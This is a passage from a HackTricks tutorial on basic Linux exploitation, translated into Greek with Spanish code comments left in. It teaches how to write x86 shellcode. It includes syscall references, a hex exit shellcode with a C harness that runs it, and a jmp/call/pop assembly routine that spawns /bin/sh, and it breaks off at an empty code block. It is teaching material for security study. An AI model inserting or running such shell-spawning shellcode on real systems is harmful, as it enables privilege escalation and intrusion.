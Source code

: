 # Linux Exploiting (Basic) (SPA)

{{#include ../../banners/hacktricks-training.md}}

## **2.SHELLCODE**

Δείτε διακοπές πυρήνα: cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep “\_\_NR\_”

setreuid(0,0); // \_\_NR_setreuid 70\
execve(“/bin/sh”, args\[], NULL); // \_\_NR_execve 11\
exit(0); // \_\_NR_exit 1

xor eax, eax ; καθαρίζουμε το eax\
xor ebx, ebx ; ebx = 0 καθώς δεν υπάρχει επιχείρημα να περάσουμε\
mov al, 0x01 ; eax = 1 —> \_\_NR_exit 1\
int 0x80 ; Εκτέλεση syscall

**nasm -f elf assembly.asm** —> Μας επιστρέφει ένα .o\
**ld assembly.o -o shellcodeout** —> Μας δίνει ένα εκτελέσιμο που σχηματίζεται από τον κώδικα συναρμολόγησης και μπορούμε να πάρουμε τους opcodes με **objdump**\
**objdump -d -Mintel ./shellcodeout** —> Για να δούμε ότι είναι πράγματι η shellcode μας και να πάρουμε τους OpCodes

**Ελέγξτε ότι η shellcode λειτουργεί**
```
char shellcode[] = “\x31\xc0\x31\xdb\xb0\x01\xcd\x80”

void main(){
void (*fp) (void);
fp = (void *)shellcode;
fp();
}<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```
Για να δούμε ότι οι κλήσεις συστήματος εκτελούνται σωστά, πρέπει να μεταγλωττίσουμε το προηγούμενο πρόγραμμα και οι κλήσεις συστήματος πρέπει να εμφανίζονται σε **strace ./PROGRAMA_COMPILADO**.

Όταν δημιουργούμε shellcodes, μπορούμε να κάνουμε ένα κόλπο. Η πρώτη εντολή είναι ένα jump σε ένα call. Το call καλεί τον αρχικό κώδικα και επιπλέον βάζει στο stack το EIP. Μετά από την εντολή call έχουμε βάλει το string που χρειαζόμαστε, οπότε με αυτό το EIP μπορούμε να δείξουμε στο string και επιπλέον να συνεχίσουμε την εκτέλεση του κώδικα.

ΕJ **ΚΟΛΠΟ (/bin/sh)**:
```
jmp                 0x1f                                        ; Salto al último call
popl                %esi                                       ; Guardamos en ese la dirección al string
movl               %esi, 0x8(%esi)       ; Concatenar dos veces el string (en este caso /bin/sh)
xorl                 %eax, %eax             ; eax = NULL
movb  %eax, 0x7(%esi)     ; Ponemos un NULL al final del primer /bin/sh
movl               %eax, 0xc(%esi)      ; Ponemos un NULL al final del segundo /bin/sh
movl   $0xb, %eax               ; Syscall 11
movl               %esi, %ebx               ; arg1=“/bin/sh”
leal                 0x8(%esi), %ecx      ; arg[2] = {“/bin/sh”, “0”}
leal                 0xc(%esi), %edx      ; arg3 = NULL
int                    $0x80                         ; excve(“/bin/sh”, [“/bin/sh”, NULL], NULL)
xorl                 %ebx, %ebx             ; ebx = NULL
movl   %ebx, %eax
inc                   %eax                          ; Syscall 1
int                    $0x80                         ; exit(0)
call                  -0x24                          ; Salto a la primera instrución
.string             \”/bin/sh\”                               ; String a usar<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```
**EJ χρησιμοποιώντας το Stack(/bin/sh):**
```
section .text
```